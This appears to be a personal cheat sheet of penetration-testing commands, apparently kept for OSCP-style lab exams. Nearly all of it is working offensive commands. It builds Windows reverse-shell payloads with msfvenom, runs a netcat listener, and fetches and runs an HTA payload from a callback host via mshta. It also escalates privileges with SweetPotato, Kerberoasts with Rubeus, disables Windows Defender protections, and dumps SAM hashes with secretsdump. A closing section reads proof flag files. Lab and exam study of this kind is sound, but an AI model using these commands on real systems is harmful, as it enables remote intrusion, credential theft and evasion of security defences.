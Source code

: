 ### Common Commands

These are commands I run frequently in a variety of contexts

```bash

# Generate a reverse shell for windows
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$cb_ip LPORT=$cb_port -f exe -o reverse.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$cb_ip LPORT=$cb_port -f hta-psh -o shell.hta

## rlwrap for nicer shell
rlwrap nc -lvnp $cb_port

## reverse shell with hta
mshta http://$cb_ip/shell.hta


## sweet potato execution
cmd /c "SweetPotato.exe -p 'reverse.exe'"
cmd /c "spoofer.exe -c reverse.exe"

Rubeus.exe kerberoast /outfile:hashes.kerb

SharpHound.exe -c all --outputdirectory C:\windows\temp --outputprefix "OSCP"
## start bloodhound
sudo neo4j start
http://localhost:7474
neo4j	/	neo4j
bloodhound
## upload data, select zip from target

# Disable AV
powershell -command 'Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true'

powershell -command 'Add-MpPreference -ExclusionPath "c:\temp" -ExclusionProcess "c:\temp\yourstuffs.exe"'

# secretsdump
impacket-secretsdump -system $system -sam $sam LOCAL
```

### Flags
The nicest part, getting all the information needed for your screenshots
```bash
# Must take a screenshot
# Must be in an interactive shell

# Liux boxes
ip a sh; echo "root proof"; cat /root/proof.txt; echo; echo "local proof"; cat /home/*/local.txt


# Windows boxes
ipconfig; echo "adminsitrator flag"; cat C:\users\administrator\desktop\proof.txt; echo "user flag"; cat C:\users\*\desktop\local.txt -erroraction SilentlyContinue

!! MUST TAKE A SCREENSHOT !!
!! MUST BE IN A SHELL !!
```
